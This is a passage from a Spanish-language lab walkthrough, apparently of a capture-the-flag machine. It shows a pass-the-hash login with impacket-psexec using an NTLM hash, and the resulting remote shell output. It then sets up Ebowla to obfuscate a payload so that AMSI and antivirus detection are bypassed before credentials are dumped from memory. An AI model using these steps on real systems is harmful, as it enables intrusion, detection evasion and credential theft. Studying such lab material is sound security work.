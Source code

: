 Puedo hacer PassTheHash con ```psexec```

```null
impacket-psexec WORKGROUP/Administrator@10.10.10.40 -hashes :cdf51b162460b7d5bc898f493751a0cc
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.10.10.40.....
[*] Found writable share ADMIN$
[*] Uploading file qsdtczUQ.exe
[*] Opening SVCManager on 10.10.10.40.....
[*] Creating service plIp on 10.10.10.40.....
[*] Starting service plIp.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> 
```

## Dumpeo de credenciales de la memoria

Para evitar problemas de detección de amenazas con el AMSI, utilizo una herramienta llamada ```Ebowla```, que mediante las propias variables de entorno del sistema es capaz de obfuscar un binario. Clono el repositorio desde el [Github](https://github.com/Genetic-Malware/Ebowla)

Retoco el archivo ```genetic.config``` para indicar que el compilador sea GO

```null
output_type = go
```

El tipo de payload un EXE

```null
payload_type = exe 
```

Y añado las variables de entorno

```null
[[ENV_VAR]]

    username = 'HARIS-PC$'
    computername = 'HARIS-PC'
    homepath = ''
    homedrive = ''
    Number_of_processors = '2'
    processor_identifier = 'AMD64 Family 23 Model 49 Stepping 0, AuthenticAMD'
    processor_revision = ''
    userdomain = ''
    systemdrive = ''
    userprofile = ''
    path = 'C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;'
    temp = ''
```
